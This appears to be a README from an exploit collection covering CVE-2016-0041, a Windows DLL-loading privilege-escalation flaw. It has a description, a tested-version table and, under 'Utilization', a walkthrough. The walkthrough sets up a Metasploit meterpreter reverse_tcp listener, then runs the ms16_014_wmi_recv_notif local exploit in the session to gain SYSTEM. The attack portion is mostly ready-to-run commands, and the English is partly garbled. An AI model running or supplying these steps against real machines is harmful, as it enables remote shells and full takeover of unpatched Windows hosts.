### CVE-2016-0041

#### Describe

Microsoft Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, Windows 10 Gold and 1511, and Internet Explorer 10 and 11 mishandle DLL loading, which allows local users to gain privileges via a crafted application, aka "DLL Loading Remote Code Execution Vulnerability."


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested                   |
| ------------------- | ---------------- | ------- | ------ | ------------------------ |
| Windows 10          |                  |         |        |                          |
| Windows 10          |                  | 1511    |        |                          |
| Windows 7           |                  |         | SP1    | &#10004;       |
| Windows 8.1         |                  |         |        |                          |
| Windows Rt 8.1      |                  |         |        |                          |
| Windows Server 2008 |                  |         | SP2    | &#10008; |
| Windows Server 2008 |                  | R2      | SP1    | &#10008; |
| Windows Server 2012 |                  |         |        | &#10008; |
| Windows Server 2012 |                  | R2      |        | &#10008; |
| Windows Vista       |                  |         | SP2    |                          |

#### Utilization

Tested the C ++ code version that can be found online, Windows 7 x86 / x64 will be blue screen, and all versions of Windows Server 2008/2012 have no response, all this side can only use the MSF version.Only the rebound shell with only `payage/windows/x64/meterpreter/revrse_tcp`，`payload/windows/meterpreter/reverse_tcp`version failure 

Test system Windows 7 SP1 x64，First monitor

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.9
set lport 12345
run
```

You can see the following rebound shell

![CVE-2016-0041_win7_sp1_x64_01](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-0041_win7_sp1_x64_01.png)

Then use the rights vulnerability

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set session 2#你当前的session
run
```

![CVE-2016-0041_win7_sp1_x64_02](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-0041_win7_sp1_x64_02.png)

You can see that we finally became SYSTEM permissions.